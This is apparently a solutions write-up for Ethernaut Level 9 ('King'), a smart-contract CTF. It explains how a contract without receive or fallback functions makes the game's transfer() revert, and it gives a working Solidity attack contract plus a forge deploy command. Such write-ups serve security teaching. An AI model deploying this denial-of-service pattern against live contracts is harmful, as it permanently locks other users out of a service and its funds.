


<div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 9 - King</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 9 - King](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-09-king)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)
- [References](#references)

## Goals



## The hack

In this level, the goal is to become the king and then make sure that the contract is not able to transfer the prize to the next king. In other words, we have to become king and then break the game.

This requires an understanding of how the now-considered deprecated `transfer` works in solidity. This function throws an error if the transfer fails, but doesn't return a boolean value. This means that if the transfer fails, the transaction will revert.

```javascript
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
```

First, we need to check the `prize` function to see how much ether is required to pass the `require` statement and become king.

Now, that we are king, how can we make sure that no one else can dethrone us? How to make sure the `transfer()` function reverts systematically after us? The answer is pretty simple, we just need to make sure that our king contract can't receive any ether. As long as no `receive()` or `fallback()` function is defined, the contract will not be able to receive any ether via the King contract, which will effectively prevent anyone from becoming the new king after us.

## Solution

Deploy a contract that can't receive ether via the "normal" way (no `receive()` or `fallback()` functions).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IKing {
    function prize() external returns (uint256);
}

contract FallenKing {
    address private immutable king;

    constructor(address _king) {
        king = _king;
    }

    function attack() external payable {
        uint256 prize = IKing(king).prize();
        (bool success, ) = king.call{value: prize}("");
        require(success, "Transfer failed");
    }
}
```

Then, you can use forge scripts to deploy this contract and call the `attack` function:

```bash
forge script script/09_King.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- `send` and `transfer` are now considered deprecated. They should be replaced by `call` with a proper Check-Effect-Interaction pattern to prevent re-entrancy.
- <b>External calls must be used with caution and must handle errors properly.</b>

## References

https://blog.chain.link/defi-security-best-practices/
https://www.kingoftheether.com/postmortem.html

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
